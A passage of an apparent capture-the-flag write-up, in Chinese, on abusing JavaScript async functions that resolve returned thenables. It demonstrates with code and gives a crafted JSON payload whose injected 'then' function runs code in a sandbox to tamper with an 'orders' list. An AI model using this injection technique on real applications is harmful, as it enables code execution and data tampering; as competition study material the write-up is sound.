 重點是那個 sendOrder 跟它最後 return 的東西。

在 JS 裡面，如果你在 async function 裡面回傳一個 Promise，它是會被解析的，如下：

``` js
async function test() {
  const p = new Promise(resolve => {
    console.log(123)
    resolve()
  })
  return p
}

test()
```

你可以看到 console 印出了 123，而且外層的呼叫並不需要 await。

因此，如果 `this.order.orderId` 是一個 Promise，就可以在 then 裡面偷塞程式碼了。

馬上來做個實驗：

``` js
async function test() {
  var obj = {
    then: function(resolve) {
      console.log(123)
      resolve()
    }
  }
  obj.__proto__ = Promise.prototype
  return obj
}

test()
```

執行以後順利輸出了 `123`，代表這個 idea 是可行的。所以，我們只要構造出這樣一段 JSON 即可在 sandbox 裡面執行程式碼，並且去改動 orders：

``` js
{
  "key":"shoppingCartId",
  "type":"pickledPromise",
  "value":[
    {
      "key":"then",
      "type":"Function",
      "value":"globalThis.orders.push(JSON.parse('"+payload+"'));arguments[0]();"
    }
  ]
}
```

（賽後我才想起來其實直接去改 `orders[0]` 就好，沒必要大費周章再 push 一個） 

程式碼裡面的 `arguments[0]` 是 `resolve` 參數，沒有呼叫的話會卡住。
